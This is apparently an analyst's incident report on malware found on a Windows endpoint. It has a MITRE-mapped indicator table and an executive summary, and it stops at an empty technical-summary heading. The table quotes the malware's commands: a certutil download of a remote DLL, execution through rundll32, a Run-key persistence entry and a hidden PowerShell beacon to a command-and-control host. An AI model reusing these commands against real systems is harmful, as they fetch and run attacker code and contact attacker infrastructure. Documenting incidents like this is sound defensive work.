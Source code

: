 **Title: Malicious Process on Compromised Windows Endpoint**

**Name: James Jolley**

**Indicators and Technical Details**

| Datetime | Identifier (IP, Domain, URL, Hostname) | MITRE Technique ID | Analyst Comment |
| ----- | ----- | ----- | ----- |
| Jul 2, 2023 @ 16:42:45.588 | banana.exe | T1204.002 **User Execution: Malicious File** |  SHA-256: 177cc95750b51da9218013c3e8ddbb707e90eed74573349bfab7cc901666e135 Returned 34/70 from Virus total (**Analyst note:**  This is the initial PoC. The parent process for this was explorer.exe indicating this was started from the GUI.) |
| Jul 2, 2023 @ 16:42:46.049 | C:\\Windows\\System32\\tallyme.exe registry: HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run name: “MrTallyMan”  | T1112 **Modify Registry** |  SHA-256: 3dd932a00cb3aadc242cf4ceb71a774fed039b557c34c22651d370fc6ba11190 (**Analyst note:** Registry keys created by banana.exe indicating persistence mechanism.)  |
| Jul 2, 2023 @ 16:42:46.063 | C:\\Windows\\system32\\cmd.exe /c certutil.exe \-URLcache \-f hxxps[://]ibarblkacoiwlkese[.]s3[.]amazonaws[.]com/update[.]dll c:\\Windows\\System32\\apple.dll | T1105 **Ingress Tool Transfer** | apple.dll SHA-256: 24564f1e1c5dece16ea0307fa9b03303fbbe300fbb785db22417f6c2e73c7a12 banana.exe spawned child process cmd.exe and called out to an amazon s3 bucket to download “update.dll” and save it as apple.dll |
| Jul 2, 2023 @ 16:42:46.796 | C:\\Windows\\system32\\cmd.exe /c rundll32.exe apple.dll,iliketoeat | T1218.011 **System Binary Proxy Execution: Rundll32** | banana.exe spawned a child process cmd.exe which executed rundll32.exe with the arguments apple.dll with the function iliketoeat. (**Analyst  note:** this iliketoeat function is likely what is triggering the network traffic with the apples\_and\_bananas flag set) |
| Jul 2, 2023 @ 16:42:51.912 | C:\\Windows\\system32\\cmd.exe /c powershell.exe \-Sta \-Nop \-Window Hidden \-c "Invoke-WebRequest \-UseBasicParsing \-Uri hxxps[://]tueoeoslxo[.]s3-us-west-2[.]amazonaws[.]com/index[.]html?flag=apples\_and\_bananas | T1059.001 **Command and Scripting Interpreter: PowerShell**  | cmd.exe spawning powershell.exe to begin web traffic. |
| Jul 2, 2023 @ 16:42:51.932 | powershell.exe  \-Sta \-Nop \-Window Hidden \-c "Invoke-WebRequest \-UseBasicParsing \-Uri hxxps[://]tueoeoslxo[.]s3-us-west-2[.]amazonaws[.]com/index[.]html?flag=apples\_and\_bananas" | TA0011 **Command and Control** | powershell.exe using invoke-webrequest to beacon to the c2 server. |

**Executive Summary**

On Jul 2, 2023 the SOC received an alert stating that there was a malicious process on one of our company computers. We investigated the alert and were able to confirm that one of our servers had been infected with malware. This malware was attempting to establish persistence on our system to begin running whenever the server was powered on, as well as restart itself if not killed in a specific way. We also noted that it had downloaded another malicious file as part of a second stage attack. This second file was communicating with an attacker  controlled server outside our network. We were able to isolate and remediate the infected system and did not note any attempts by the malware to compromise other devices on our network, and confirmed no confidential data was exfiltrated. We will continue to monitor for further signs of compromise, and have identified ways to prevent this from occurring in the future.

**Technical Summary**
